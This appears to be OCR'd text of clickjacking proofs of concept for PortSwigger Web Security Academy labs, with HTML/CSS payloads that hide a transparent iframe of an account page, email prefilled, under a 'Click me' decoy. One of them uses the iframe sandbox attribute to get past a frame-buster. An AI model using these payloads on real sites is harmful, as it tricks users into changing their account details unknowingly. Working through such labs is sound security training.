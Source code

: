     POC2 - Portwigger: https://portswigger.net/web-security/clickjacking/lab-prefilled-form-input

<style>
    iframe {
        position:relative;
        width:1000;
        height:1000;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:470;
        left:50;
        z-index: 1;
    }
</style>
<div>Click Me</div>
<iframe src="https://0ac4007f041b6aa8c31bd3bc000900a5.web-security-academy.net/my-account?email=kidman@kidman.com"></iframe>

    POC3 - Portwigger: https://portswigger.net/web-security/clickjacking/lab-frame-buster-script

        <style>

            iframe {

                position:relative;

                width:800;

                height: 700;

                opacity: 0.0001;

                z-index: 2;

            }

            div {

                position:absolute;

                top:510;

                left:68;

                z-index: 1;

            }

        </style>

        <div>Click me</div>

        <iframe sandbox="allow-forms" src="https://0a9300c7030d325ac1ed4ed300ec0040.web-security-academy.net/my-account?email=kidman@kidman.com"></iframe>


    POC4 - Portwigger: https://portswigger.net/web-security/clickjacking/lab-exploiting-to-trigger-dom-based-xss
